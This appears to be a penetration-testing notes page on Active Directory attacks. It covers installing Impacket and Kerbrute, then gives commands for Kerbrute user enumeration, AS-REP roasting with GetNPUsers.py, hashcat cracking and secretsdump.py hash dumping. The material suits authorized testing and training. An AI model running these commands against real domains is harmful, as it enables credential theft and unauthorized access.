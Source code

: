 [../](../)

# Impacket instalation

## Introduction

So you're likely here if you've had issues with Impacket. Impacket is moderately frustrating to say the least... A lot of people have issues with it, so let's walk through the Impacket install process!

## Installing Impacket

First, you'll want to clone the repo with:

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
```

This will clone Impacket to /opt/impacket/, after the repo is cloned, you will notice several install related files, requirements.txt, and setup.py. Setup.py is commonly skipped during the installation. It's key that you DO NOT miss it.

So let's install the requirements:

```
pip3 install -r /opt/impacket/requirements.txt
```

Once all the python modules are installed, we can then run the python setup install script:

```
cd /opt/impacket/ && python3 ./setup.py install
```

After that, Impacket should be correctly installed now and it should be ready to use!


# Kerberos

## Kerbrute

### Instalation
Clone the repository.

```
git clone https://github.com/ropnop/kerbrute.git /opt/kerbrute
cd /opt/kerbrute
```

With the repository cloned, you can also use the Make file to compile for common architectures:

```
make help
make all
```

Your new binaries will be inside `dist` directory.

### Usage

Enumerating users:

```
./kerbrute_linux_386 userenum --dc <RHOST> -d <domain> <userlist> 
```

## ASREPRoasting

After the enumeration of user accounts is finished, we can attempt to abuse a feature within Kerberos with an attack method called ASREPRoasting. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

### Exploitation

Impacket has a tool called "GetNPUsers.py" (located in Impacket/Examples/GetNPUsers.py) that will allow us to query ASReproastable accounts from the Key Distribution Center. The only thing that's necessary to query accounts is a valid set of usernames which we enumerated previously via Kerbrute.

```
python3 GetNPUsers.py <domain>/ -dc-ip <RHOST> -usersfile <usersfile>
```

Then crack dumped hashes.

```
hashcat -m 18200 <hashfile> <wordlist>
```

# secretsdump.py

For this command to work you will need to also know user's password.

```
secretsdump.py -dc-ip <RHOST> <username>@<RHOST>
```

When successfull, this will dump domain user's NT:LM hashes.
